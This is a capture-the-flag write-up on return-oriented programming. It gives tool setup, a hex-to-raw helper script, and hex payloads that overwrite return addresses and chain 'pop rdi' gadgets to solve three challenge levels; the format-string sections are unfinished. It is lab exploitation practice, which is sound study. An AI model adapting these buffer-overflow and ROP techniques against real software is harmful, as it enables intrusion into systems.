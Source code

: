 # CTFhehe (write-up)
## ROP
### Setup
#### GDB
Use GDB, install peda
#### Ropper
Install using the following command
```
pip install ropper
```
#### Python Script for Raw Text
Create a script `hex2raw.py`
```
import binascii
import sys

def main():
	cmd_arg = sys.argv
	payload = b""
	
	with open("input.txt", "r") as src:
		raw = src.read()
		raw = raw.replace(" ", "")
		raw = raw.replace("\r", "")
		raw = raw.replace("\n", "")
		payload += binascii.unhexlify(raw)
		payload += b"\n"
		
	sys.stdout.buffer.write(payload)

if __name__ == "__main__":
	main()
```
Create `input.txt` in the same directory as the script
#### How to Run
Open terminal, execute
```bash
python hex2raw.txt | /challenge/xxxx
```
### Level 1.0
![rop1](img/rop-1.png)

win() address = 0x401a84

Input the following hex to overwrite buffer and return address
```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
84 1a 40 00 00 00 00 00
```

Result: 
![rop1flag](img/rop-1-flag.png)
Flag get!

### Level 2.0
![rop2](img/rop-2.png)

Do ROP chaining, overwrite buffer followed by two return addresses.
![rop2-chain](img/rop-2-chain.png)

Addresses of win_stage_1 & win_stage_2 (GDB):

![rop2-address](img/rop-2-address.png)

Input hex:
```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00

33 21 40 00 00 00 00 00
e0 21 40 00 00 00 00 00
```
Result:
![rop2flag](img/rop-2-flag.png)
Flag get!

### Level 3.0
![rop3](img/rop-3.png)

Address for win_stage_x:

![rop3-winstage](img/rop-3-address.png)

For each win_stage_x, parameter is passed to edi. To 'insert' argument values, "pop rdi" gadget (x64) is needed.
![rop3-disas](img/rop-3-disas.png)
![rop3-ropper](img/rop-3-ropper.png)

![rop3-chain](img/rop-3-chain.png)
Input hex:
```
0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a
0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a
0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a
0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a
0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a
0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a

0b 0b 0b 0b 0b 0b 0b 0b 0b 0b 0b 0b 0b 0b 0b 0b 0b 0b 0b 0b
0b

93 29 40 00 00 00 00 00
01 00 00 00 00 00 00 00

1c 22 40 00 00 00 00 00

93 29 40 00 00 00 00 00
02 00 00 00 00 00 00 00

da 23 40 00 00 00 00 00

93 29 40 00 00 00 00 00
03 00 00 00 00 00 00 00

f8 22 40 00 00 00 00 00

93 29 40 00 00 00 00 00
04 00 00 00 00 00 00 00

ba 24 40 00 00 00 00 00

93 29 40 00 00 00 00 00
05 00 00 00 00 00 00 00

a0 25 40 00 00 00 00 00
```
Result:
![rop-3-flag](img/rop-3-flag.png)
Flag get!


### Level 4.0
TBA
## Format String
### Level 1.0
TBA
### Level 1.0
TBA
### Level 1.0
TBA
